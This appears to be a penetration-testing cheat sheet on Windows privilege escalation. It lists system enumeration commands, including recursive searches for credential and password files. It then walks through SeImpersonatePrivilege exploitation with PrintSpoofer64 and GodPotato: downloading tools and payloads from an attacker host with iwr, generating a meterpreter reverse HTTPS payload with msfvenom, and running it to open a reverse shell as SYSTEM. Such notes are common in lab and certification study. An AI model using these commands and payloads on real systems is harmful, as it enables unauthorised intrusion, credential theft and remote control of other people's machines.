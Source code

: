 # 04 - Privilege Escalation

Index
- [System Enumeration](#System-Enumeration)
- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
    - [Exploit by PrintSpoofer64](#Exploit-by-PrintSpoofer64)
    - [Exploit by GodPotato](#Exploit-by-GodPotato)

## System Enumeration
Base commands and tools for Windows:
``` bash
whoami                                  ## domain\username
whoami /groups                          ## my groups
whoami /priv                            ## user's local privileges
Get-LocalUser                           ## local users list
Get-LocalGroup                          ## local groups list
Get-LocalGroupMember $GROUP_NAME        ## members list
net user $USERNAME                      ## user information

systeminfo                              ## OS version, domain config, ...
ipconfig /all                           ## network configuration
route print                             ## local routing table
netstat -nao                            ## acctive connections and listening ports
Get-ChildItem Env:                      ## environment vars -- tips: informations hidden
Get-Process                             ## process list

Get-History                             ## history
(Get-PSReadlineOption).HistorySavePath  ## read the content to access the history

Get-ChildItem -Path c:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue                             ## search for interesting file
Get-ChildItem -Path c:\ -Include credential* -File -Recurse -ErrorAction SilentlyContinue                       ## search for interesting file
Get-ChildItem -Path c:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue                         ## search for interesting file

Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname ## installed software
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname             ## installed software
```

Tools:
 - winPEAS.exe
 - Seatbelt.exe

## SeImpersonatePrivilege
### Requirements
- Need access to the target system.
- Verify user's privileges:
``` powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled     ## possibly vulnerable
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Exploit by PrintSpoofer64
PrintSpoofer64.exe can exploit the local system and elevate the privileges.
``` powershell
iwr http://192.168.1.1:8888/PrintSpoofer64.exe -outfile PrintSpoofer64.exe      ## download on target system
.\PrintSpoofer64.exe -i -c powershell.exe                                       ## exploit
```

### Exploit by GodPotato
GodPotato.exe can exploit the local system and run command with elevate privilege. Useful link: https://jlajara.gitlab.io/Potatoes_Windows_Privesc.

Generate a payload and a listester:
``` bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=$KALI LPORT=443 -f exe -o payload.exe   ## generate payload
msfconsole                                                                                      ## open msfconsole
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https                 ## set payload
msf6 exploit(multi/handler) > set LHOST $KALI
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```

xploit the system:
``` powershell
iwr http://192.168.1.1:8888/payload.exe -outfile payload.exe                                    ## download payload on target system
iwr http://192.168.1.1:8888/GodPotato.exe -outfile GodPotato.exe                                ## download exploit on target system
./GodPotato.exe -cmd "powershell /c ./payload.exe"                                              ## exploit: open a reverse shell
```
